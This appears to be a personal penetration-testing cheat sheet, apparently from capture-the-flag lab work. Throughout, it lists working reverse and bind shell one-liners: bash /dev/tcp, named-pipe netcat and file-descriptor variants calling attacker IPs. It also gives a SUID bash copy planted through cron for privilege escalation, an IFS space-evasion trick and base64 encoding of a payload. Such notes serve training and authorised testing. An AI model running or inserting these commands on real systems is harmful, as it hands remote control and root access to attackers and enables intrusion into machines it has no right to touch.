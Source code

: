 
```sh
#!/bin/bash

bash -i >& /dev/tcp/10.21.31.111/443 0>&1
```

<font color="red">Don't forget to make sure your script file is executable `chmod +x [script]`
cron won't run without both #! and +x</font>
Also testrun shell as current user before waiting for scheduled job to run

---

If you get the error:
`mksudo.sh: 8: mksudo.sh: Syntax error: Bad fd number`
you're running with sh, not bash

---

`${IFS%??}` = space as in `which${IFS%??}bash`

^works on bash, not on zsh

Reverse shell:
`/bin/bash -i >& /dev/tcp/10.18.21.236/443 0>&1`

-i   interactive
`>&`: redirects both standard output (stdout) and standard error (stderr)
`0>&1`: redirects the standard input (stdin) to the same destination as standard output. This ensures that any input intended for the shell is also sent over the network connection to the attacker's machine.

-l   executes `~/.bash_profile`, `~/.bash_login`, or `~/.profile` (in that order) and inherits environment variables set in those files

rev shell file:
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```

To run with existing cronjob or similar:
```sh
#!/bin/bash
cp /bin/bash /tmp/mybash
chmod +xs /tmp/mybash
```
chmod +x /home/user/whatever.sh
/tmp/mybash -p

---
alternative

nano revsh.sh
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```
in python code run by system (like crontab)
```python
import os

os.system("touch /tmp/testfile")
os.system("bash /tmp/revsh.sh")
```

---

Revsh using named pipes (connecting from target machine)
```sh
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

Bind shell using named pipes (listening on target machine)
```sh
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
connect with
```sh
nc -nv TARGET_IP 8080
```

---

Read Line Rev shell (creates file descriptor)
```sh
5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

Rev shell with File descriptor 196
```sh
target@tryhackme:~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

Rev shell with File descriptor 5
```sh
target@tryhackme:~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

---

### base 64 encoding it

```sh
echo -n /bin/bash -c 'bash -i >& /dev/tcp/10.18.21.236/443 0>&1' | base64 -w0
```